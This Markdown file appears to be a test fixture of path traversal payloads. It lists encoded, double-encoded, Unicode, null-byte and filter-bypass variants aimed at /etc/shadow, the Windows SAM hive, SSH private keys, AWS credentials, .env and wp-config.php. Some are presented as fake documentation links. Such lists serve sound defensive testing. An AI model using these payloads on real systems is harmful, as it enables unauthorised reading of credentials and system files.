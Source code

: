 # Path Traversal Test Cases

## Documentation

Please refer to our documentation at: `../../../etc/passwd`

## File Includes

- Configuration: `../../../../etc/shadow`
- License: `..\\..\\..\\windows\\system32\\config\\sam`
- README: `....//....//....//etc//passwd`
- Guide: `..;/..;/..;/etc/passwd`
- Manual: `....\/....\/....\/etc/passwd`

## URL Encoded Variants

- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `%2e%2e%5c%2e%2e%5c%2e%2e%5cwindows%5csystem32%5cconfig%5csam`
- `..%252f..%252f..%252fetc%252fpasswd`
- `..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`

## Double Encoding

- `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`
- `%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255csystem32%255cconfig%255csam`

## Unicode/UTF-8 Encoding

- `..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
- `..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fpasswd`
- `..%u2216..%u2216..%u2216etc%u2216passwd`

## Null Byte Injection

- `../../../../etc/passwd%00.jpg`
- `..\..\..\..\windows\system32\config\sam%00.png`
- `../../../etc/passwd%00`

## Absolute Paths

- `/etc/passwd`
- `/etc/shadow`
- `C:\Windows\System32\config\SAM`
- `/var/www/html/index.php`
- `/proc/self/environ`
- `/proc/self/cmdline`
- `/proc/self/fd/0`

## Filter Bypasses

- `..././..././..././etc/passwd`
- `....\/....\/....\/etc/passwd`
- `....//....//....//etc//passwd`
- `..///////..////..//////etc/passwd`
- `/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`

## Windows Specific

- `..\..\..\..\windows\win.ini`
- `..\..\..\..\boot.ini`
- `..\..\..\..\windows\system32\drivers\etc\hosts`
- `C:\inetpub\wwwroot\web.config`
- `\\?\C:\windows\system32\config\sam`

## Environment Files

- `../../../../.env`
- `../../../../.git/config`
- `../../../../.ssh/id_rsa`
- `../../../../.bash_history`
- `../../../../.aws/credentials`
- `../../../../.docker/config.json`

## Log Files

- `../../../../var/log/apache2/access.log`
- `../../../../var/log/nginx/error.log`
- `../../../../var/log/auth.log`
- `../../../../var/log/syslog`

## Application Files

- `../../../../application/config/database.yml`
- `../../../../config/database.yml`
- `../../../../wp-config.php`
- `../../../../sites/default/settings.php`

